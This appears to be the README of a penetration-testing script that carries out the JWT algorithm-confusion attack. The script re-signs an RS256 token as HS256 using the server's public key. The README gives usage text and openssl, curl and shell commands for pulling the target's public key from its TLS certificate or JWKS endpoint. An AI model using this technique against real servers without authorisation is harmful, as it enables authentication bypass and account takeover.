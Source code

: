 Requires `PyJWT`, not `jwt`.

# Background

Some JWT libraries are vulnerable to a known attack which changes
the type of a JWT from an asymmetric (e.g. RS256) to a symmetric
one (e.g. HS256), as described
[here](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

This script will change the algorithm of a JWT to a symmetric one and re-sign
it with a given public key, varying the line length of the PEM data. If the
remote server is vulnerable it will try to verify the signature using its
public key, as usual, but now using a symmetric algorithm, and hopefully
succeed for one of the generated signatures. See also
[here](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/)

# Usage

```
usage: jwt_resign_asym_to_sym.py [-h] [-j FILE] [-k FILE] [-f ALGO] [-t ALGO]
                                 [-n]

Re-sign a JWT with a public key, changing its type from RS265 to HS256. Unless
disabled, it will re-sign it once for each possible line length of the public
key (starting at the length of the header line).

optional arguments:
  -h, --help            show this help message and exit
  -j FILE, --jwt-file FILE
                        File containing the JWT. (default: jwt.txt)
  -k FILE, --key-file FILE
                        File containing the public PEM key. (default: key.pem)
  -f ALGO, --from-algorithm ALGO
                        Original algorithm of the JWT. (default: RS256)
  -t ALGO, --to-algorithm ALGO
                        Convert JWT to this algorithm. (default: HS256)
  -n, --no-vary         Sign only once with the exact key given. (default:
                        False)
```

# Getting the public key 

## From the SSL certificate

Many sites use a single private/public key pair and that's the one
in their SSL certificate, so try this, replacing `{server}` with the
domain name and `{HTTPS` port} with e.g. 443:

```bash
$ echo QUIT | openssl s_client -connect "{server}:{HTTPS port}" -showcerts 2> /dev/null > cert.pem
```

then extract the public key from it:

```bash
$ openssl x509 -in cert.pem -pubkey -noout > key.pem
```

## From the JWKS

1. From the OpenID conf

    Servers which use OpenID keep the configuration in a well known
    location. If the OpenID endpoint is e.g.
    `http://example.com/service/auth/`, then try:
    
    ```
    $ curl http://example.com/service/auth/.well-known/openid-configuration
    ```
    
    then look for the `jwks_uri` parameter. This points to the resource
    containing the public keys and their IDs.

2. From the OpenID conf

    If the server doesn't use OpenID, it may still provide a JWKS under the
    following URL
    
    ```
    $ curl http://example.com/.well-known/jwks.json
    ```

If you found the JWKS JSON configuration, then fecth it and choose the key
with the same `kid` as the `kid` in the JWT headers:

```
$ cut -d. -f1 <<<"{JWT here}" | base64 -d
```

After you have the JWT keys configuration (from the JWKS endpoint), and

1. you get the PEM certificate (`x5c` parameter), but no public key,
   save the value of the certificate to a file (`cert.pem`), adding
   the header and footer lines as follows (pad `x5c` with `=` as necessary,
   i.e.  so that the number of characters in the body is a multiple of 4):

```
-----BEGIN CERTIFICATE-----
{value of x5c parameter, padded with =}
-----END CERTIFICATE-----
```

   then extract the public key from it:

```
$ openssl x509 -in cert.pem -pubkey -noout > key.pem
```

2. you don't get the PEM certificate (`x5c` paramter), but instead
   have the public key as a combination of a modulus (`n` parameter)
   and exponent (`e` parameter), do (replacing `$modulus` with the value of the
   `n` parameter):

```
$ res=$(sed 's/-/+/g;s/_/\//g' <<<"$modulus"); n=$(( 4 - (${#res} % 4) )); echo -n "${res}"; printf "%0.s=" $(seq 1 $n);
```

   in order to replace the URI-safe charset of Base64 with the traditional
   charset of Base64 (see
   [this](https://stackoverflow.com/a/13195218/8457586)), and to pad it
   with `=` as necessary. Then use
   [this](https://superdry.apphb.com/tools/online-rsa-key-converter)
   online tool to generate a PEM public key from the modulus and exponent. 

# TO DO

* Support for signing with a key in DER format
